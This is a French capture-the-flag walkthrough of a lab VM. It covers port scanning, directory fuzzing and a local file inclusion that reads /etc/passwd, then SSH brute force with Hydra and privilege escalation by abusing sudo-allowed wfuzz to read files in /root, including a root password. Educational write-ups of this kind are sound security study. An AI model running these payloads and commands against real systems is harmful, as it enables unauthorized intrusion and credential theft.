



## 1. Découverte des services

Je commence par un scan des ports principaux avec Nmap :

```bash
nmap -sC -sV --top-ports 5000 -T5 172.20.10.2
```

Résultats :

```text
22/tcp open  ssh   OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
80/tcp open  http  Apache httpd 2.4.62 ((Debian))
```

On voit un serveur web sur le port 80 et le port SSH d’ouvert.

---

## 2. Analyse de l'application web

Le site accessible sur `http://172.20.10.2` est un **site statique** à l’esthétique de site vitrine « vibe codeur » qui parle de `rockyou.txt`.


Je ne trouve rien de spécial sur la page ni dans le code source…

---

## 3. Énumération du site

Je décide alors d’essayer de **fuzzer** le site :

```bash
ffuf -u http://172.20.10.2:80/FUZZ \
  -w /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt \
  -fc 500 -e .php,.zip,.txt,.html
```

Parmi les résultats, je trouve un fichier intéressant :

- `file.php`

Le fichier ne donne rien quand on le `curl` :

```bash
curl http://172.20.10.2:80/file.php
```

Ça pourrait être une mauvaise piste, mais le paramètre `file` laisse penser à une **Local File Inclusion (LFI)**.  
Je tente alors :

```bash
curl "http://172.20.10.2:80/file.php?file=/etc/passwd"
```

Et ça marche :

```text
tao:x:1000:1000:,,,:/home/tao:/bin/bash
```

On récupère ainsi un utilisateur local : `tao`.

---

## 4. Brute force SSH avec rockyou.txt

Je n’ai pas trouvé plus d’indices, et comme le thème du site est `rockyou.txt`, ça sent le **brute force SSH** sur le profil `tao`.

Je lance Hydra :

```bash
hydra -l tao -P /usr/share/wordlists/rockyou.txt ssh://172.20.10.2 -t 5
```



Hydra finit par trouver :

- login : `tao`
- password : `rockyou`

Presque un peu gênant, j’aurais pu le trouver à la main ahah.

Connexion SSH :

```bash
ssh tao@172.20.10.2
# rockyou
```



**Flag user obtenu !**

---

## 5. Escalade de privilège

On regarde ensuite les fichiers ou commandes accessibles en root via `sudo` :

```bash
sudo -l
```

Résultats :

```text
(ALL) NOPASSWD: /usr/bin/wfuzz
(ALL) NOPASSWD: /usr/bin/id
```

On remarque que `wfuzz` peut être exécuté en root sans mot de passe, ce qui est potentiellement très intéressant.

---

### 5.1. Lister les fichiers de /root avec wfuzz

L’idée est d’utiliser wfuzz pour **lister les fichiers du répertoire /root** via un service local :

```bash
sudo wfuzz -z dirwalk,/root -u http://localhost/FUZZ
```

Je vois notamment :

- `root.txt` (le flag)
- `111.txt`
- et d’autres fichiers pas très intéressants.

---

### 5.2. Récupérer le mot de passe root

Parce qu’on est curieux et qu’on veut voir le contenu du fichier qui porte le nom de la VM avant de récupérer le flag, on lit `111.txt` avec wfuzz :

```bash
sudo wfuzz -z file,/root/111.txt -u http://localhost/FUZZ
```

Résultat :

```text
q6I42RCMyMkDV45svyuF
```

C’est en fait le **mot de passe root**.

Je passe root :

```bash
su -
# q6I42RCMyMkDV45svyuF
```



Puis je lis le flag :

```bash
cat /root/root.txt
```

**Flag root obtenu !**

---

> **Leçon retenue :** Accorder `wfuzz` en `NOPASSWD` dans `sudoers` revient ici à offrir une lecture quasi illimitée des fichiers de root via HTTP, ce qui rend la privesc triviale. Toujours auditer attentivement `sudo -l` lors de la post‑exploitation.